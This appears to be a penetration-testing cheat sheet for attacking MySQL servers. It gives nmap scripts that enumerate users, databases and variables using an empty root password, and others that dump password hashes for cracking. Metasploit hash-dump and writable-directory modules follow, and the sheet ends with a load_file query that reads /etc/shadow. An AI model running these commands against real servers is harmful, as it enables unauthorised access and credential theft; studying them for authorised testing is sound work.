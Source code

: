 
### Using `nmap` to enumerate accounts with NULL password

```
nmap -p 3306 -sV <target-IP> --script mysql-empty-password
```

### Using `nmap` to enumerate SQL server info

```
nmap -p 3306 -sV <target-ip> --script mysql-info
```

### Using `nmap` to enumerate users

```
nmap -p 3306 -sV <target-ip> --script mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate databases

```
nmap -p 3306 -sV <target-ip> --script mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate variables

- Using the `mysql-variables` script to retrieve configuration and system information from the MySQL server:
```
nmap -p 3306 -sV <target-ip> --script mysql-variables --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to perform audit on the SQL server

```
nmap -p 3306 -sV <target-ip> --script mysql-audit --script-args="mysqlaudit.username='root',mysql-audit.pass='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

- The `mysql-audit` script in Nmap is designed to perform security audits on MySQL database servers by checking for compliance with specific security configurations, guidelines, or benchmarks.

### Using `nmap` to dump hashes

- Dumps the password hashes from an MySQL server in a format suitable for cracking by tools such as John the Ripper.
```
nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
```

### Using `nmap` to run MySQL queries

```
nmap -p 3306 <ip> --script mysql-query --script-args="query='select count(*) from books.authors;',username='root',password='secret'"
```

### Using `metasploit` to enumerate directories

- Metasploit module to enumerate writable directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```

- **WordList path** - /usr/share/metasploit-framework/data/wordlists/directory.txt
- Set verbosity to `false` to avoid getting spammed with too many messages. 
- To show more options use command `advanced`
- Instead of using `set <RHOSTS>`, we can use `setg <RHOSTS>` to set it as a global variable, so that we don't have to set it again when we switch to another module.

**How does this module work ?**

This Metasploit module doesn't enumerate directories in the traditional sense but rather checks if MySQL has write access to specific directories by executing SQL queries that attempt to create temporary files in those directories. If the MySQL server has the necessary permissions and access rights, it will allow the creation of files in those directories.

### Using `sql_hashdump` module

- Metasploit module to collect the hashes of different users who have access to the MySQL server from the user account information stored in the `mysql.user` table:
```
use auxiliary/scanner/mysql/sql_hashdump
```

### Using `mysql` to access sensitive files

- `mysql` command to access `/etc/shadow` file.
```
select load_file("/etc/shadow")
```

- *The `/etc/shadow` file keeps records about encrypted users' passwords, as well as other passwords related information.
